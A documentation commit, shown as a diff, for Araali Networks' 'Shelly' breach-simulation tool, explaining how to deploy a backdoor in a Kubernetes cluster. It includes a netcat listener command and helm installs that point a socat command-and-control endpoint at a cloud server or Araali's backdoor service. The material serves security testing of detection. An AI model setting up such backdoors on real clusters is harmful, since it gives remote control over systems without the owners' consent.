

Before and after one commit to araalinetworks/api, a Sphinx documentation site: the page built from doc/source/getting_started_with_Shelly.rst, in a window 1280 px wide and 1400 px high, scrolled down 613 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Shelly doc

```diff
--- a/doc/source/getting_started_with_Shelly.rst
+++ b/doc/source/getting_started_with_Shelly.rst
@@ -1,5 +1,5 @@
 ===================================
-Getting started with Shelly(Linux)
+Getting started with Shelly in your Cluster(Linux)
 ===================================
 
 Araali Shelly is an open source tool that helps security teams safely test their detect and
@@ -8,52 +8,66 @@
 exploited and represents a doomsday scenario where an attacker has full remote control
 capabilities based on the backdoor.
 
-**Setting up the Backdoor Server**
-
+Step 0: Setting up the Backdoor Server (Optional, if you choose to use Araali Backdoor, see next steps)
+***********************************************************************************************************
 Run a cloud VM where you can listen for incoming connections (you can use a small t2-micro).
 Note down the external IP address of this machine (will be used later on).
 You can also dial out to Araali’s backdoor-as-a-service -nightly.aws.araalinetworks.com:443
 
 Join our `Slack Channel <https://araali.slack.com/join/shared_invite/zt-o3yeo8us-GRa7qtz4p0kcIVIBaIxWbA#/shared-invite/email>` if you need any help
 
-#Install net cat and listen for incoming connections::
+Install net cat and listen for incoming connections::
 
     sudo nc -nvlp 443
 
 We suggest you run Shelly after `installing Araali <https://araali-networks-api.readthedocs.io/en/latest/gettingstarted.html>`. By doing so, Shelly is safely run in a no harm sandbox.
 
-**Setup Shelly in your Cluster**
 
-#Setup Helm Repo::
+Step 1: Setup Shelly in your Cluster
+************************************
+ Setup Helm Repo::
 
     helm repo add araali-helm https://araalinetworks.github.io/araali-helm/
 
-#Create namespace::
+Create namespace::
 
     kubectl create ns araali-attack
 
-**If your cluster is running araali**
-    #Install Shelly(With your own Backdoor)::
+
+**If you are using your own Backdoor**
+    #Install Shelly on your cluster running Araali::
 
         helm install attack araali-helm/araali-attack -n araali-attack --set araali.zone=<araali-zone> --set araali.socat_c2c_endpoint=<ip-of-cloud-server>:443
+
     OR
-    #Install Shelly(With Backdoor offered by Araali)::
+
+    #Install Shelly on your cluster NOT running Araali::
+
+        helm install attack araali-helm/araali-attack -n araali-attack --set araali.include_policy_as_code=false --set araali.socat_c2c_endpoint=<ip-of-cloud-server:443>
+
+
+**If you are using Araali as a backdoor service**
+
+    #Install Shelly on your cluster running Araali::
 
         helm install attack araali-helm/araali-attack -n araali-attack --set araali.zone=demo --set araali.socat_c2c_endpoint=backdoor-nightly.aws.araalinetworks.com:443
 
-**If your cluster is NOT running araali**
-    #Install Shelly(With your own Backdoor)::
+    OR
 
-        helm install attack araali-helm/araali-attack -n araali-attack --set araali.zone=<araali-zone> --set araali.socat_c2c_endpoint=<ip-of-cloud-server>:443helm install attack araali-helm/araali-attack -n araali-attack --set araali.include_policy_as_code=false --set araali.socat_c2c_endpoint=<ip-of-cloud-server:443>
-    OR
-    #Install Shelly(With Backdoor offered by Araali)::
+    #Install Shelly on your cluster NOT running Araali::
 
-       helm install attack araali-helm/araali-attack -n araali-attack --set araali.include_policy_as_code=false --araali.socat_c2c_endpoint=backdoor-nightly.aws.araalinetworks.com:443
+        helm install attack araali-helm/araali-attack -n araali-attack --set araali.include_policy_as_code=false --araali.socat_c2c_endpoint=backdoor-nightly.aws.araalinetworks.com:443
 
-#Check if the pods are up and running::
 
-    kubectl get po -A
 
+Step 2: Check if Shelly got installed correctly
+***********************************************
+    Check if the pods are up and running::
+
+        kubectl get po -A
+
+If you are facing trouble installing Shelly, please refer to the
+ `installation video <https://vimeo.com/696308067?embedded=true&source=vimeo_logo&owner=114861097>` by our staff.
 
 **How to uninstall Shelly?**
 
```
